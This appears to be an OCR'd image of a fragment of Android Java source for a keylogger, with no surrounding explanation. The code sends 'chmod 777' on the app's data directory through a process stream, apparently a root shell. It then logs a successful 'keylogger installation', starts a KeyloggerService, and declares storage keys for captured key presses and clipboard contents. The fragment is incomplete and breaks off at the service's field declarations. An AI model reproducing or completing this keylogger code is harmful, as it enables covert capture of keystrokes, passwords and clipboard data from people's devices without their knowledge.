 ```java

            DataOutputStream outputStream = new DataOutputStream(process.getOutputStream());

            outputStream.writeBytes("chmod 777 /data/data/com.example.keylogger\n");

            outputStream.writeBytes("exit\n");

            outputStream.flush();

            int processExitValue = process.waitFor();

            if (processExitValue == 0) {

                // Keylogger installation successful

                Log.d(TAG, "Keylogger installed successfully");

              

                // Start keylogger service

                Intent serviceIntent = new Intent(context, KeyloggerService.class);

                context.startService(serviceIntent);

            } else {

                // Keylogger installation failed

                Log.e(TAG, "Keylogger installation failed");

            }

        } catch (Exception e) {

            e.printStackTrace();

        }

    }

}



public class KeyloggerService extends Service {

    private static final String TAG = "KeyloggerService";

  

    private static final String PREF_FILE = "KeyloggerPrefs";

    private static final String KEY_PRESSED = "KeyPressed";

    private static final String CLIPBOARD = "Clipboard";

  

    private SharedPreferences sharedPreferences;

    private BroadcastReceiver receiver;

```